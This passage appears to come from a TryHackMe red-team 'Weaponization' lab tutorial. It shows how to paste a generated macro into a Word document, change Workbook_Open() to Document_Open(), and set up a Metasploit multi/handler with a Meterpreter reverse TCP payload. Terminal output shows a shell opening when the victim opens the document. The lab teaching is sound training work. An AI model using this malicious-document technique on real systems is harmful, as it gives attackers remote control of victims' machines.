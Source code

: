 The value of the LHOST in the above terminal is an example of AttackBox's IP address that we used. In your case, you need to specify the IP address of your AttackBox.

**Import to note** that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the Workbook\_Open() to Document\_Open() to make it suitable for MS word documents.

Now copy the output and save it into the macro editor of the MS word document, as we showed previously.

From the attacking machine, run the Metasploit framework and set the listener as follows:

Terminal

```shell-session
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
```

Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.

Terminal

```shell-session
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
[*] Sending stage (176195 bytes) to 10.10.215.43
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209) at 2021-12-13 10:46:05 +0000
meterpreter >
```

Now replicate and apply what we discussed to get a reverse shell!

## PowerShell (PSH)

***

PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room, [Hacking with PowerShell for more information about PowerShell](https://tryhackme.com/room/powershell).

Red teamers rely on PowerShell in performing various activities, including initial access, system enumerations, and many others. Let's start by creating a straightforward PowerShell script that prints "Welcome to the Weaponization Room!" as follows,

